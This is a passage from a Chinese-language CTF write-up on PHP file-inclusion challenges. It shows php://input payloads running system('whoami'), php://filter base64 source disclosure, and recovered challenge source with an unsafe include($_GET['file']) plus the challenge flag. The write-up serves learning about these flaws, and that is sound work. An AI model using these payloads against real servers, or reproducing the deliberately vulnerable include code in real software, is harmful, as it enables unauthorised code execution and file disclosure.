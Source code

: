 因此可以使用PHP伪协议测试是否存在文件包含漏洞

使用`php://input + [POST DATA]`执行php代码

执行系统命令

```php
url:index.php?php://input

[POST DATA]
<?php
	system("whoami");
?>
```

无法执行系统命令，可见存在对提交数据的过滤机制

![](https://img.yatjay.top/md/202203132058854.png)

使用`php://filter/read=convert.base64-encode/resource=[文件名]`进行文件读取查看源码，可见`php://filter`伪协议可以成功执行

![](https://img.yatjay.top/md/202203132100652.png)

base解码得到源码如下，index.php源码中存在flag

```php
<html>
    <title>asdf</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}

?>
</html>
```

而show.php中没有flag

![](https://img.yatjay.top/md/202203132103646.png)

### i春秋——“百度杯”CTF比赛 2017 二月场

题目地址：https://www.ichunqiu.com/battalion?t=1&r=O   注册登录后选择Web类题目  题目名称为：50px include，创建项目后访问提示地址

![](https://img.yatjay.top/md/202203132112567.png)

读所给的php代码可知其含义为：如果该页面接收REQUEST方式的参数传递，则包含该参数值作为包含文件的路径，如果该页面未接收REQUEST传递参数值，则包含phpinifo.php文件
